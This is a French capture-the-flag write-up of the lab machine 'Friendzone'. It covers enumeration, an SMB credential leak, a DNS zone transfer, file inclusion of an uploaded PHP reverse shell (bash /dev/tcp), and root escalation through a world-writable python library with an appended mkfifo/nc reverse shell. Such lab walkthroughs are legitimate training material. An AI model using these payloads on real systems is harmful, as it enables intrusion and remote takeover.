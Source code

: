 ![Pic1](../img/friendzone1.PNG?raw=true) </br>

# Introduction
Friendzone est une machine linux dont l'adresse IP est 10.10.10.123.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* Enumération des dossiers partagés de la box.
* Exploitation d'un transfert de zone DNS.
* Elevation de privilège via une tache cron qui execute un script.
</br>

# Enumération initiale
Nous commencons l'énumération par un scan des ports et services exposés de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.123
```
![Pic2](../img/friendzone2.PNG?raw=true) </br>
Le port 80 est ouvert, nous allons faire un scan des dossiers et fichiers du site avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,500 -u http://10.10.10.123/
```
![Pic3](../img/friendzone3.PNG?raw=true) </br>
Le port 445 étant ouvert, nous pouvons faire une énumération des dossiers partagés avec smbclient :
```bash
$ 
```
![Pic4](../img/friendzone4.PNG?raw=true) </br>

# Obtenir un accès utilisateur
On commence par découvrir ce que contient les dossiers partagés, le plus intéréssant étant general :
```bash
$ smbclient \\\\10.10.10.123\\general
smb > ls
smb > get creds.txt
```
![Pic5](../img/friendzone5.PNG?raw=true) </br>
Ainsi nous avons un identifiant et un mot de passe pour l'***admin THING***. Les autres dossiers partagés ne contiennent pas d'informations utiles.
Un petit tour sur la page web de la box nous permet de voir un sous domaine/autre domaine intéréssant :</br>
![Pic6](../img/friendzone6.PNG?raw=true) </br>
Un tour sur le port 443 nous permet de voir le certificat qui va confirmer le domaine précédent :</br>
![Pic7](../img/friendzone7.PNG?raw=true) </br>
En ajoutant "10.10.10.123 friendzone.red" dans notre /etc/hosts, nous obtenons la page suivante :</br>
![Pic8](../img/friendzone8.PNG?raw=true) </br>
Nous sommes sur le bon chemin mais on est surement passé à coté d'un truc, en faisant un transfer de zone avec dig, on en apprend un peu plus :
```bash
$ dig -t axfr @10.10.10.123 friendzone.red
```
![Pic9](../img/friendzone9.PNG?raw=true) </br>
Nous avons 3 sous domaines à tester : ***administrator1.friendzone.red***, ***hr.friendzone.red*** et ***uploads.friendzone.red***, nous les rajoutons alors dans /etc/hosts.
Sur **hr** : rien, sur **uploads** : un input pour upload des fichiers et sur **administrator1** : une page pour se connecter :</br>
![Pic10](../img/friendzone10.PNG?raw=true) </br>
![Pic11](../img/friendzone11.PNG?raw=true) </br>
Nous pouvons alors nous connecter avec les creds trouvés plus tôt :</br>
![Pic12](../img/friendzone12.PNG?raw=true) </br>
![Pic13](../img/friendzone13.PNG?raw=true) </br>
Nous avons donc une page pour upload un fichier, et une autre page nous disant comment accéder au fichier uploadé, nous allons faire un reverse shell
pour l'upload et l'exécuter :
```bash
$ vim rev.php 
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1'");
```
Malheureusement, des problèmes pour accéder au fichier à partir du site, il faut alors mettre dans reverse shell dans le dossier
partagé Development et y accéder via la requête web :
```bash
$ smbclient \\\\10.10.10.123\\Development
smb > put rev.php
```
![Pic14](../img/friendzone14.PNG?raw=true) </br>
Maintenant la requête web :
```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rev
```
Et nous avons notre netcat qui reçoit une connexion :</br>
![Pic15](../img/friendzone15.PNG?raw=true) </br>
Nous sommes en tant que www-data mais nous pouvons quand même lire le user.txt :</br>
![Pic16](../img/friendzone16.PNG?raw=true) </br>

# Obtenir un accès root
En remontant d'un cran, nous avons un fichier conf mysql avec l'utilisateur friend et son mot de passe :
```bash
$ cd ../
$ ls
$ cat mysql_data.conf
```
![Pic17](../img/friendzone17.PNG?raw=true) </br>
En réalisant l'énumération de base, il y a une tache cron qui execute le script /opt/server_admin/reporter.py, ce script contient :</br>
![Pic18](../img/friendzone18.PNG?raw=true) </br>
Le script utilise la librairie os, une énumération nous permet de voir le la lib est en permission 777 :
```bash
$ ls -aril /usr/lib/python2.7
```
![Pic19](../img/friendzone19.PNG?raw=true) </br>
Nous pouvons alors le modifier pour rajouter un reverse shell pour obtenir une connection en tant que root :
```bash
$ echo 'system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4567 >/tmp/f")' >> os.py
```
Après un moment, la connection s'établie et nous pouvons lire le root.txt :</br>
![Pic20](../img/friendzone20.PNG?raw=true) </br>